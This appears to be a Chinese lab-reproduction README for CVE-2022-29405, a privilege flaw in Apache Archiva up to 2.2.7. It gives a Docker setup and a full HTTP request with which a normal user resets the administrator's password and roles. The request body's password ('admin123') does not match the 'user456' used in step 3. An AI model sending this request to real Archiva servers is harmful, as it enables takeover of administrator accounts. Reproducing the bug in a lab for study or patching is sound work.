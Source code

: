 # CVE-2022-29405 Apache Archiva任意用户密码重置漏洞

Apache Archiva是一套可扩展的Artifact Repository管理系统。它能够与Maven，Continuum和ANT等构建工具完美结合。Archiva提供的功能包括：远程Repository代理，基于角色的安全访问管理，Artifact分发、维护、查询，生成使用报告，提供基于Web的管理界面等。

Apache Archiva 管理员创建的普通用户，其权限设置不当，导致普通用户可以修改任意用户信息。

影响版本

Apache Archiva 全版本（<=2.2.7）

项目地址https://github.com/apache/archiva/tree/master

参考链接：

- https://archiva.apache.org/docs/2.2.8/release-notes.html
- https://blog.csdn.net/shelter1234567/article/details/137235659

## 漏洞环境



执行如下命令启动一个apache-archiva-v2.2.7_web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`

## 漏洞复现

1，创建管理员账号 admin:admin123

​     创建普通用户账号 user:user123 （勾选 validated）

![](https://img-blog.csdnimg.cn/direct/0da71b51ea394205bbfa738e401d9455.png)

![](https://img-blog.csdnimg.cn/direct/d364e3f8fc0948ab8302dd092a8d6a23.png)

2，用普通账号发送修改管理员账号的请求包

```
POST /restServices/redbackServices/userService/updateUser HTTP/1.1
Host: 10.66.64.106:8080
Content-Length: 752
Accept: application/json, text/javascript, */*; q=0.01
X-XSRF-TOKEN: [替换值]
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Content-Type: application/json
Origin: http://10.66.64.106:8080
Referer: http://10.66.64.106:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: [替换值]
Connection: close

{"username":"admin","password":"admin123","confirmPassword":"admin123","fullName":"the administrator","email":"admin@admin.com","permanent":true,"validated":true,"timestampAccountCreation":"Mon, 1 Apr 2024 05:36:44 +0000 - 5 minutes ago","timestampLastLogin":null,"timestampLastPasswordChange":"Mon, 1 Apr 2024 05:36:44 +0000 - 5 minutes ago","locked":false,"passwordChangeRequired":false,"assignedRoles":["Global Repository Manager","Global Repository Observer","Repository Manager - internal","Repository Manager - snapshots","Repository Observer - internal","Repository Observer - snapshots","System Administrator","User Administrator"],"modified":true,"readOnly":false,"userManagerId":"jdo","rememberme":false,"validationToken":null,"logged":false}
```

![](https://img-blog.csdnimg.cn/direct/f6489c08b6f34cf6970ed7cb5d6fb474.png)

3，用修改后的密码user456登录管理员账号admin 

![](https://img-blog.csdnimg.cn/direct/01ce590c5b35406eb66fdb1703621802.png)